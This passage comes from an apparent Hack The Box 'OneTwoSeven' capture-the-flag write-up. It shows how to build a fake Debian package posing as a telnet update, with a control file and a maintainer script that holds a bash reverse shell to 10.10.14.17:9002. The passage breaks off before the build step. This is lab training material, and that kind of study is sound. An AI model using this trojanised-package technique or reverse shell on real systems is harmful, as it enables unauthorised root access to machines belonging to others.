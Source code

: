 Now pick one package to update, I'll choose telnet

```
dpkg -l
---
---
ii  telnet         0.17-41      amd64        basic telnet client

---
---
```

And we change and I save:

![image26](/assets/images/htb-onetwoseven/onetwoseven26.png)

Now let's create the malicious package:

First create a directory named `DEBIAN`, then a file named `control` and its content:

```
Package: telnet
Maintainer: based
Version: 0.20-1
Architecture: amd64
Description: good description
```

Then a file named postint with the reverse shell

```
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.17/9002 0>&1'
```

```
chmod 755 postint
```

Now build it 
